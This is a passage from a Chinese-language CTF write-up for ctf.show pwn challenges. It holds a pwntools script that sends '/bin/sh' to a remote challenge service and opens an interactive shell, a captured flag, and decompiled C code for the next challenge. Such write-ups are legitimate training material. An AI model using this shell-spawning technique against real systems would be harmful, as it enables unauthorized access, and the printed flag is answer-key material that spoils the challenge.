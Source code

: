 可以看到如果case 3的话要等很久，这肯定不是正解

所以我们要case2，然后在buf里面写入/bin/sh即可



```python
from pwn import *

ip = 'pwn.challenge.ctf.show'
port =  28119

r = remote(ip,port)

r.recvuntil(b'choose:(1.2.3.4 or 5)')
r.sendline(b'2') 

r.recvuntil(b' directiry you want?)')
r.sendline(b'/bin/sh') 

r.interactive()
```



然后ls，cat ctf* 即可

```
ctfshow{74ed219d-73af-47b0-88e1-2b8d2a0da210}
```



## 18. pwn18（>和>>）

仔细看看源码，或许有惊喜

假作真时真亦假，真作假时假亦真



关键源码：

```c
  puts("Which is the real flag?");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 9 )
    fake();
  else
    real();
  system("cat /ctfshow_flag");
```



```c
int fake()
{
  return system("echo 'flag is here'>>/ctfshow_flag");
}
```
